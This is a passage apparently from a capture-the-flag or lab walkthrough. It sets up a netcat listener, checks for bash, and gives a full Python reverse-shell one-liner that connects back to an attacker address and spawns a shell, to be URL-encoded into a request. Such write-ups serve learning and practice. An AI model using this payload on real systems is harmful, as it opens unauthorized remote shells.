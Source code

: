 Set up a listener on the attack machine.

```text
nc -nlvp 4444
```

Execute the request. It doesn’t send a reverse shell back. Check if bash is installed on the machine.

```text
which bash
```

![](../images/max/919/1*5ljbBdyQo5QOKxfjBdFdnA.png)

It is so I’m not sure why this didn’t work. Let’s try python.

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Again, don’t forget to URL encode it.
